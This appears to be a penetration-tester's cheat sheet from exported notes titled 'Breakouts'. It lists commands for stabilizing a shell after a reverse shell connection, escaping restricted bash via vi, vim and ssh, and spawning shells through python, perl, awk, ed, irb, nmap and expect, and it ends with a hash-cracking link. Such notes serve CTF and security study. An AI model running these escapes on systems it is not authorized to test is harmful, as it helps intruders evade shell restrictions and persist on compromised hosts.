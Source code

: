 # Breakouts

==============================================================================

[**S1REN's COMMON**](Breakouts%20aa384a6dbd3148b0a7253068e5543f23/S1REN's%20COMMON%2073a5b9df4b6c42d8a7c6643f8e065ab8.md)

[Reverse shells](Breakouts%20aa384a6dbd3148b0a7253068e5543f23/Reverse%20shells%2074e04dd93f214933b90684755c59128c.md)

[CVE’s](Breakouts%20aa384a6dbd3148b0a7253068e5543f23/CVE%E2%80%99s%2074afdf94a1084e348fc958f723029293.md)

[**Privilege Escalation**](Breakouts%20aa384a6dbd3148b0a7253068e5543f23/Privilege%20Escalation%209d59e4cc21814a8e8c6c9373eb9e336a.md)

[Tools](Breakouts%20aa384a6dbd3148b0a7253068e5543f23/Tools%20c933d5b016ca41a3bba9074c47715a3e.md)

[-rbash](Breakouts%20aa384a6dbd3148b0a7253068e5543f23/-rbash%2029cefa0bc95c46d78add7b66e67f2396.md)

===============================================================================

                                                                                [shell after a reverse shell connection]

===============================================================================

`shell after a reverse shell connection`

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

```bash
python -c 'import os; os.system("/bin/sh")'
```

`Set PATH TERM and SHELL if missing:`

```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

```bash
export TERM=xterm-256color;export SHELL=bash
```

```makefile
Out of the gate.

python -c 'import pty; pty.spawn("/bin/bash")'
OR
python3 -c 'import pty; pty.spawn("/bin/bash")'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
export TERM=xterm-256color
alias ll='ls -lsaht --color=auto'
Keyboard Shortcut: Ctrl + Z (Background Process.)
stty raw -echo ; fg ; reset
stty columns 200 rows 200

 

* Grab a valid tty.
* What OS are you on? Grab access to those binaries fast by exporting each environment variable. Debian/CentOS/FreeBSD
* Want a color terminal to easily tell apart file permissions? Directories? Files?
* Fastest way to list out the files in a directory, show size, show permissions, human readable.
* Make this shell stable.

Is this rbash (Restricted Bash)? PT1
$ vi
:set shell=/bin/sh
:shell

$ vim
:set shell=/bin/sh
:shell

Is this rbash (Restricted Bash)? PT2
(This requires ssh user-level access)
ssh user@127.0.0.1 "/bin/sh"
rm $HOME/.bashrc
exit
ssh user@127.0.0.1
(Bash Shell)

Is python present on the target machine?
python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/sh")'

Is perl present on the target machine?
perl -e 'exec "/bin/bash";'
perl -e 'exec "/bin/sh";'

Is AWK present on the target machine?
awk 'BEGIN {system("/bin/bash -i")}'
awk 'BEGIN {system("/bin/sh -i")}'

Is ed present on the target machines?
ed
!sh

IRB Present on the target machine?
exec "/bin/sh"

Is Nmap present on the target machine?
nmap --interactive
nmap> !sh

Expect:

expect -v
  expect version 5.45.4
  
$ cat > /tmp/shell.sh <<EOF
#!/usr/bin/expect
spawn bash
interact
EOF

$ chmod u+x /tmp/shell.sh
$ /tmp/shell.sh
```

==================================================================================================

[Best Hash Cracker] [https://hashes.com/en/decrypt/hash](https://hashes.com/en/decrypt/hash)

---